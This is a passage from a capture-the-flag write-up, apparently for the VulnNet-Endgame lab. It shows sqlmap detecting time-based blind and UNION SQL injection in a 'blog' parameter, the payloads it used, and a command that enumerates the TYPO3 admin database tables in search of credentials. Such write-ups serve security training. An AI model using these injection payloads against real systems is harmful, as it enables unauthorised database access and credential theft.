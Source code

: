 ```
    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: blog=1 OR SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: blog=-9075 UNION ALL SELECT CONCAT(0x7176717671,0x72576a667762514c4a48736172554a6d677548546a724163455949526b53546f6153495564735376,0x71766a6b71),NULL,NULL-- -
---
[00:44:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[00:44:41] [INFO] fetching database names
available databases [3]:
[*] blog
[*] information_schema
[*] vn_admin
```

It's vulnerable to SQL injection!

Let's enumerate the entire MySQL's databases!

The database `vn_admin` sounds holding some credentials in the `typo3` CMS!

**Enumerate database `vn_admin`'s table names:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbms=mysql -D vn_admin --tables
[...]
Database: vn_admin
[48 tables]
+---------------------------------------------+
| backend_layout                              |
| be_dashboards                               |
| be_groups                                   |
| be_sessions                                 |
| be_users                                    |
| cache_adminpanel_requestcache               |
| cache_adminpanel_requestcache_tags          |
| cache_hash                                  |
| cache_hash_tags                             |
| cache_imagesizes                            |
| cache_imagesizes_tags                       |
| cache_pages                                 |
| cache_pages_tags                            |
| cache_pagesection                           |
| cache_pagesection_tags                      |
| cache_rootline                              |
| cache_rootline_tags                         |
| cache_treelist                              |
| fe_groups                                   |
| fe_sessions                                 |
| fe_users                                    |
[...]
```
